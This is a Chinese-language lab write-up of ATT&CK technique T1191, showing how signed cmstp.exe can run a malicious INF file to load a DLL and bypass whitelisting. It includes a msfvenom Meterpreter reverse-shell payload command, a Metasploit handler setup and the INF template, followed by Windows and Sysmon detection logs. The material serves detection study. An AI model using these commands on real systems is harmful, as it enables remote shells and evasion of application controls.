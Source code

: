 # T1191-win-基于白名单Cmstp.exe执行Payload

## 来自ATT&CK的描述

微软的命令行程序CMSTP.exe用于安装连接管理器服务配置文件。CMSTP.exe将收到的安装信息文件（INF）作为参数，安装用于远程访问连接的服务配置文件。

攻击者可能会向CMSTP.exe提供带恶意命令的INF文件。与Regsvr32/"Squiblydoo"类似，CMSTP.exe可能被滥用来从远程服务器加载和执行动态链接库和/或COM脚本小程序。攻击者还可能用CMSTP.exe来绕过AppLocker及其他白名单防御，因为CMSTP.exe本身是一个合法的、已签名的微软应用。

CMSTP.exe也可能被滥用来绕过用户账号控制并通过自动升级的COM接口执行INF文件中的任意恶意命令。

## 测试案例

Cmstp安装或删除“连接管理器”服务配置文件。如果不含可选参数的情况下使用，则 cmstp 会使用对应于操作系统和用户的权限的默认设置来安装服务配置文件。

微软官方文档：
<https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp>

说明：Cmstp.exe所在路径已被系统添加PATH环境变量中，因此，Cmstp命令可识别，需注意x86，x64位的Cmstp调用。

Windows 2003 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### inf模板

```inf
[version]
Signature=$chicago$
AdvancedINF=2.5
[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection
[UnRegisterOCXSection]
C:\payload.dll
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="12306Br0"
ShortSvcName="12306Br0"
```

INF文件的RegisterOCXSection需要包含恶意DLL文件的本地路径或远程执行的WebDAV位置

#### 靶机执行payload

```cmd
cmstp.exe /ni /s C:\Users\12306Br0\Desktop\a\add.inf
```

#### 反弹shell

未成功获取到shell

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0x9b0
新进程名: C:\Windows\System32\cmstp.exe

sysmon日志
事件ID：1
OriginalFileName: CMSTP.EXE
CommandLine: cmstp.exe  /ni /s C:\Users\12306Br0\Desktop\a\add.inf
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=BA135738EF1FB2F4C2C6C610BE2C4E855A526668
ParentProcessGuid: {bb1f7c32-fdb7-5e9a-0000-0010563b2d00}
ParentProcessId: 1988
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1191

<https://attack.mitre.org/techniques/T1191/>

windows下基于白名单获取shell的方法整理（下）

<http://www.safe6.cn/article/157#directory030494471069429444>

基于白名单Cmstp.exe执行payload第十六季

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-87_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Cmstp.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%85%AD%E5%AD%A3.md>
